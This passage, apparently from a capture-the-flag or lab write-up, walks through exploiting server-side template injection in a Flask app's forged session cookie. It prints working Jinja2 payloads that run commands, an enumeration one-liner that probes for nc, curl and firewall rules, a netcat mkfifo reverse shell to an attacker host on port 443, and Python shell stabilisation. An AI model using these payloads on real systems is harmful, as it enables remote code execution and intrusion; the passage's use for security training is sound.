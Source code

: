 ```python
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

If we put this into our PoC code in the username field then execute the script and overwrite our cookie again, we can confirm that this works.

Almost time to weaponize this, but first we need to do a little enumeration. Specifically, we need to know if there is a firewall in place, what software is installed, and preferably if there are any protective measures in place. This is Linux so the chances of having to deal with anti-virus is minimal, but we may need to circumvent hardening measures (e.g. AppArmour, SeLinux, etc).

Running multiple commands in this situation is a pain as we would need to generate a new cookie for each command. Instead we will just use one big one-liner to enumerate as many thing as possible at once:

```python
session["username"]="""{{confg.__class__.__init__.__globals__['os'].popen('echo ""; id; whoami; echo ""; which nc bash curl wget; echo ""; sestatus 2>&1; aa-status 2>&1; echo ""; cat /etc/*-release; echo ""; cat /etc/iptables/*').read()}}"""
```

From the output we can see the followings:

- as expected we are in the low-privileged **www-data** account
- We have enough useful software to easily make web requests and create a reverse Shell
- SeLinux is not installed. AppArmour is, and we don't have permission to view the status, so we'll have to go in blind and hope
- This is an Ubuntu 20.04 machine -- as expected
- There is firewall in place (as expected). It blocks all outgoing traffic to anything other than TCP ports 443, 445, 80, 25, or 53, and UDP port 53. Outbound ICMP packets are allowed. There are no IPv6 rules.

We've done all we can for now. Let's get a shell and be done with this. A standard netcat mkfifo shell ought to do the trick:

```python
session["username"] = """{{confg.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc Con_IP 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}"""
```

## Enumeration - Shell Stabilisation and Local Enumeration

Before we do anything else, let's quickly stabilise our reverse shell. As www-data we won't be able to use SSH, so that's out. We could upload socat and use that, but we don't know what AppArmour is doing just now (although checking that with our new access should be high on our list of priorities!). Let's instead just use the classing Python shell stabilisation technique.

First let's check that we can use Python:

```bash
which python python3
```

The affirmative response indicates that this technique is good to go, so we will start by creating a PTY running bash:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
